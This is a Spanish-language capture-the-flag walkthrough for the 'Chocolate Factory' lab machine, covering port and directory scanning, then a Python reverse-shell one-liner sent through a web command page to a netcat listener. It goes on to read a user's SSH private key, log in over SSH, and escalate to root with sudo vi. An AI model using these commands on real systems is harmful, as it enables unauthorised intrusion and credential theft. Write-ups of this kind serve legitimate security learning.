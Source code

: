 ```yaml
---
description: // Tutorial //
---
```


# Chocolate Factory

Identificamos los puertos abiertos de la maquina victima

```
nmap IP -Pn -p- -v -n --min-rate 3000
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (27).png" alt="" width="332"><figcaption></figcaption></figure>

</div>

Hacemos una fuerza bruta de los directorios y ficheros del dominio y nos encontramos con un login index.html y una pagina para donde hay un input para ejecutar comandos home.php, vamos a ir a esta ultima:&#x20;

```
gobuster dir -u http://IP:80/ -w DICTIONARY -x .php,.txt,.html
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (26).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

Subimos comando para una revershell con python y nos ponemos en escucha por el puerto configurado en nuestra maquina atacante&#x20;

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-MAQUINA",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
nc -lvp 4444
```

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

A continuacion, abrimos una shell interactiva

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```

Dentro de la carpeta /var/www/html llama la atencion el fichero key\_rev\_key, si filtramos por string el fichero podemos observar la primea key

<div align="left">

<figure><img src="../../../.gitbook/assets/image (29).png" alt="" width="313"><figcaption></figcaption></figure>

</div>

Navegando por los directorios nos encontramos con un fichero donde se encuntra la clave publica y privada de ssh del usuario charlie&#x20;

```
cat /home/charlie/teleport
cat /home/charlie/teleport.pub
```

Ahora que tenemos el usuario y la clave privada accedemos a traves de ssh al usuario charlie&#x20;

```
chmod 600 id_rsa 
ssh -i id_rsa charlie@IP_victima
```

Accedemos a la flag de usuario

<div align="left">

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

</div>

Podemos ver la password de charlie en el fichero validate.php

<div align="left">

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

</div>

### Escalada de privilegios

```
Sudo -l
```

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Buscamos informacion en GTFO sobre la escalad de privilegios con vi

```
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Introducimos la flag que nos encontramos en el script de pyhton para sacar la flag de root

<div align="left">

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt="" width="459"><figcaption></figcaption></figure>

</div>

